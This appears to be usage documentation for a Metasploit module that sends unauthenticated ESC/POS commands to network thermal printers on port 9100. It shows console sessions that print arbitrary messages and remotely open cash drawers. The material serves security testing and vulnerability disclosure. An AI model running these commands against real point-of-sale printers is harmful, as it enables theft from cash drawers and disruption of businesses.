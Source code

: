 ## Vulnerable Application


- **Printer Model:** Any Epson-compatible printer exposing the ESC/POS command set
on TCP port 9100.

- **Protocol:** ESC/POS over TCP.

- **CVE:** Submitted for Epson-compatible thermal printers; awaiting assignment.



## Verification Steps



1. **Load the module:**
    use auxiliary/scanner/printer/escpos_tcp_command_injector

2. **Set required options:**
    set RHOST <printer_ip>

3. **Choose an action:**
    You can either print a message, trigger the drawer, or do both.
    - To print a message, set `PRINT_MESSAGE` to `true` and a `MESSAGE` string.
    - To trigger the drawer, set `TRIGGER_DRAWER` to `true`.
    - To do both, set both flags to `true`.

4. **Execute the module:**
    run

---


## Options

### MESSAGE

This option specifies the text to be sent to the printer.

* **Description:** The string of text you want the printer to output. It is only required when `PRINT_MESSAGE` is set to `true`.
* **Default:** "PWNED"
* **Example:** `set MESSAGE "Printing this now"`

### PRINT_MESSAGE

This boolean option controls whether a message is printed to the printer.

* **Description:** When set to `true`, the module will send the `MESSAGE` string to the printer.
* **Default:** `false`
* **Example:** `set PRINT_MESSAGE true`

### TRIGGER_DRAWER

This boolean option controls whether the module sends a command to open the cash drawer.

* **Description:** When set to `true`, the module will send the appropriate ESC/POS command to trigger the cash drawer.
* **Default:** `false`
* **Example:** `set TRIGGER_DRAWER true`



## Scenarios

### Example 1: Printing a Simple Message

This example shows how to use the module to send a simple text message to a network-connected ESC/POS printer.

msf6 > use auxiliary/scanner/printer/escpos_tcp_command_injector
msf6 auxiliary(scanner/printer/escpos_tcp_command_injector) > set RHOSTS 192.168.1.200
msf6 auxiliary(scanner/printer/escpos_tcp_command_injector) > set PRINT_MESSAGE true
msf6 auxiliary(scanner/printer/escpos_tcp_command_injector) > run

[*] Sending print message to 192.168.1.200...
[+] Printed message to 192.168.1.200

### Example 2: Triggering the Cash Drawer

This scenario demonstrates the use of the `TRIGGER_DRAWER` option to send the specific
ESC/POS command to open a cash drawer connected to the printer.

msf6 > use auxiliary/scanner/printer/escpos_tcp_command_injector
msf6 auxiliary(scanner/printer/escpos_tcp_command_injector) > set RHOSTS 192.168.1.200
msf6 auxiliary(scanner/printer/escpos_tcp_command_injector) > set TRIGGER_DRAWER true
msf6 auxiliary(scanner/printer/escpos_tcp_command_injector) > run

[*] Triggering cash drawer 2 times on 192.168.1.200...
[+] Triggered cash drawer on 192.168.1.200

### Example 3: Doing Both

This example shows how to use both options to print a message and trigger the drawer in a single run.

msf6 > use auxiliary/scanner/printer/escpos_tcp_command_injector
msf6 auxiliary(scanner/printer/escpos_tcp_command_injector) > set RHOSTS 192.168.1.200
msf6 auxiliary(scanner/printer/escpos_tcp_command_injector) > set PRINT_MESSAGE true
msf6 auxiliary(scanner/printer/escpos_tcp_command_injector) > set TRIGGER_DRAWER true
msf6 auxiliary(scanner/printer/escpos_tcp_command_injector) > set MESSAGE "Both commands sent!"
msf6 auxiliary(scanner/printer/escpos_tcp_command_injector) > run

[*] Sending print message to 192.168.1.200...
[+] Printed message to 192.168.1.200
[*] Triggering cash drawer 2 times on 192.168.1.200...
[+] Triggered cash drawer on 192.168.1.200

